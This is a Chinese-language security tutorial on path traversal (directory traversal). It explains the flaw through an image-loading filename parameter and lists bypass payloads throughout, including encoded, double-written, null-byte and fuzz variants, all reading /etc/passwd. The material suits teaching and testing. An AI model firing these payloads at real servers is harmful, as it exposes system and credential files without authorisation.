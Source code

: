 # [路径穿梭](https://blog.csdn.net/angry_program/category_9990662.html)

路径穿梭（也称为目录遍历）是指在访问储存在web根目录文件夹之外的文件和目录。通过操纵带有“点-斜线（../）”序列及其变化的文件或使用绝对文件路径来引用文件的变量，可以访问存储在文件系统上的任意文件和目录，包括应用程序源代码、配置和关键系统文件。

## 原理：

如果在网页上要显示一个物品的图像，部分会用通过HTML加载，例如：

```html
<img src="/loadImage?filename=freedom.png">
```

使用filename参数来读取图像文件，图片的位置可能会在 /var/www/images/ 中，所以真实的路径是 /var/www/images/freedom.png 

在linux和windows操作系统中，../ 都是返回上一级路径的语法；

这就导致了我们可以读取服务器上的任意文件：

```url
https://www.*****.com/loadImage?filename=../../../etc/passwd
```

filename的参数值与真实路径组合起来就是：

```
/var/www/images/../../../etc/passwd
```

其等价于：

```
/etc/passwd
```

## 攻击技巧：

### 相对路径遍历：

例如上文讲的例子

### 绝对路径遍历：

网站有时候会采取目录遍历的防御措施，如过滤 ../ 等关键字，然后简单的过滤通常可以被绕过。有时候可以直接采用绝对路径，无须../返回上一级目录遍历：

例如，上文中的

```
?filename=../../../etc/passwd
```

因为../被过滤了，所以我们采用绝对路径来进行访问

```
?filename=/etc/passwd
```



### 双写绕过：

有时候的防御措施时将../转化为空，我们就可以采用双写绕过

如果在....//中，将../替换为空，最后的路径就变成：

..**../**/ => ../

所以我们要构造为

```
?filename=....//....//....//etc/passwd
```

### 编码绕过

#### URL编码绕过

采用URL编码来绕过服务器对 . 或者 / 的检测

```
.  => %2e

/  => %2f

%  => %25 (双重URL编码)
```

```
?filename=../../../etc/passwd
```

以下所有格式都是对上面的代码进行编写

例如单独对/进行编码构造为

```
?filename=..%2f..%2f..%2fetc/passwd
```

单独对.进行编码

```
?filename=%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

对./一起进行编码

```bash
?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd
```

双重URL编码，即对%进行编码

```bash
?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd
```

#### 16 位 Unicode 编码

```
. = %u002e
/ = %u2215
```

### 非常规组合

“.”、“/”、“”,三个符号随意的组合多次，进行绕过，如必要还可以添加其他符号进行尝试。下面是示例。也就是有点进行Fuzz的意思

```
....//....//etc/passwd
..///....//etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
..././
...\.\
..;/
```



### 绝对路径配合../

有些网站在获取filename图片文件的时候，会首先判断是否以一个固定的路径开头：

那么就可以配合../来返回上一级遍历任意文件：

```bash
?filename=/var/www/images/../../../etc/passwd
```

### 截断文件后缀

某些web对filename的文件类型作了限制，只有当后缀为特定格式时才解析

这时候就可以利用 %00 来截断：（在PHP 5.3.4中被修复）

比如要求后缀为jpg

```bash
?filename=../../../etc/passwd%00.jpg
```

也可以在末尾添加？

### 目录限定绕过

有些Web应用程序是通过限定目录权限来分离的。可以使用一些特殊的符号`~`来绕过。比如提交这样的`xxx.php?filename=~/../boot`。就可以直接跳转到硬盘目录下。

